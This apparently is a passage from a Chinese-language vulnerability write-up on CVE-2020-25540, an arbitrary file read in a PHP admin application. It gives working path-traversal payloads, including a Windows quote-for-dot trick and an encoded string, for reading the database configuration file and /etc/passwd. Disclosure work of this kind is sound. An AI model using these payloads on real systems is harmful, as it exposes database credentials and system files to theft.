 有一个允许的列表：

```
config
public/static
public/router.php
public/index.php
app/admin
app/wechat
```

也就是说`$name`必须要不是`database.php`且要在允许列表内的文件才能够被读取，先绕过安全列表的限制，比如读取根目录的1.txt，只需要传入：

```
public/static/../../1.txt
```

而`database.php`的限制在Linux下应该是没办法绕过的，但是在Windows下可以透过`"`来替换`.`，也就是传入：

```
public/static/../../config/database"php
```

对应encode()后的结果为：

```php
34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34
```

虽然数据库配置文件只能在Windows读取，但是不读取的情况下对于信息搜集也能起到很大的作用了。

Windows读取`database.php`：

![](https://cdn.wtfsec.org/img/20200827165306.png)

演示站读取`/etc/passwd`：

![](https://cdn.wtfsec.org/img/20200827165154.png)

V5连允许列表都没有，可以直接读任意文件。

CVE: [CVE-2020-25540](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25540)

Exploit-db: [48812](https://www.exploit-db.com/exploits/48812)
